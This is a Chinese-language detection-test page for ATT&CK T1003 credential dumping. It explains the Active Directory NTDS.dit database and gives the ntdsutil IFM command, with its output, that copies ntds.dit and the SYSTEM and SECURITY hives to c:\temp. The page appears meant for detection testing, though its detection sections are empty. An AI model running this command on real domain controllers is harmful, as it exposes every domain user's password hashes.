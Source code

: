 # T1003 windows-基于NTDS凭证转储2

## 来自ATT&CK的描述

凭证获取是从操作系统和软件中获取登录信息和密码的过程，通常为HASH散列或明文密码。然后使用凭证进行横向移动访问其他系统。

### NTDS.dit

Ntds.dit文件是存储Active Directory数据的数据库，包括有关用户对象，组和组成员身份的信息。它包括域中所有用户的密码哈希值。域控制器（DC）上的ntds.dit文件只能由可以登录到DC的用户访问。很明显，保护这个文件至关重要，因为攻击者访问这个文件会导致整个域沦陷。
默认情况下，NTDS文件将位于域控制器的％SystemRoot％\NTDS\Ntds.dit中。但通常存储在其他逻辑驱动器上。AD数据库是一个Jet数据库引擎，它使用可扩展存储引擎（ESE）提供数据存储和索引服务。通过ESE级别索引，可以快速定位对象属性。

## 测试案例

使用NTDSUtil创建IFM抓取DC本地的Ntds.dit文件。

NTDSUTIL是一个命令行实用程序，在本地工作时需要AD数据库（NTDS.DIT）并支持为DCPROMO创建IFM。DCPROMO将使用IFM以“从媒体介质中安装”，这样服务器就不需要通过网络从另一台 DC 上复制域数据。适用于：Windows Server 2003，Windows Server 2003 R2，带有SP1的Windows Server 2003，Windows Server 2008，Windows Server 2008 R2。

Ntdsutil.exe是一个命令行工具，为Active Directory域服务（AD DS）和Active Directory轻型目录服务（AD LDS）提供管理工具。您可以使用ntdsutil命令来执行AD DS的数据库维护，管理和控制单个主操作，以及删除从网络中删除而未正确卸载的域控制器留下的元数据。该工具仅供有经验的管理员使用

Ntdsutil.exe的是内置在Windows Server 2008和Windows Server 2008 R2。如果您安装了AD DS或AD LDS服务器角色，则可以使用该角色。如果您安装作为远程服务器管理工具（RSAT）一部分的Active Directory域服务工具，它也将可用。

```dos
#!bash
ntdsutil “ac i ntds” “ifm” “create full c:\temp” q q
```

IFM 是一个 NTDS.dit文件的副本，放在**C://temp**目录中。当创建一个IFM时，也会产生并挂载一个VSS快照，同时Ntds.dit文件和相关的数据也被复制到目标文件夹中。

该文件可能存储在一个正在promot的新的DC的共享文件夹中，也可能出现在还没有promot的新的服务器上。
此服务器可能无法确保IFM数据的安全，包括复制Ntds.dit文件并提取凭证数据。这个命令也可以通过 WMI 或 PowerShell 远程执行。（建议使用powershell执行，DOS命令执行异常错误）

## 检测日志

windows 安全日志

## 测试复现

```dos
C:\Windows\system32\ntdsutil.exe: ac i ntds
活动实例设置为“ntds”。
C:\Windows\system32\ntdsutil.exe: ifm
ifm: create full c:\temp
正在创建快照...
成功生成快照集 {ea08df62-9743-4068-aedb-a2c32dfd057f}。
快照 {2d92b366-961f-45f0-9202-9aa6f069139f} 已作为 C:\$SNAP_201911011107_VOLUMEC$\ 装载
已装载快照 {2d92b366-961f-45f0-9202-9aa6f069139f}。
正在启动碎片整理模式...
     源数据库: C:\$SNAP_201911011107_VOLUMEC$\Windows\NTDS\ntds.dit
     目标数据库: c:\temp\Active Directory\ntds.dit

                  Defragmentation  Status (% complete)

          0    10   20   30   40   50   60   70   80   90  100
          |----|----|----|----|----|----|----|----|----|----|
          ...................................................

正在复制注册表文件...
正在复制 c:\temp\registry\SYSTEM
正在复制 c:\temp\registry\SECURITY
快照 {2d92b366-961f-45f0-9202-9aa6f069139f} 已卸载。
在 c:\temp 中成功创建 IFM 媒体。
ifm: q
C:\Windows\system32\ntdsutil.exe: q
```

## 测试留痕

## 检测规则/思路

## 参考推荐

MITRE-ATT&CK-T1003：<https://attack.mitre.org/techniques/T1003/>

NTDSutil简介：<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/cc753343(v=ws.10)?redirectedfrom=MSDN>
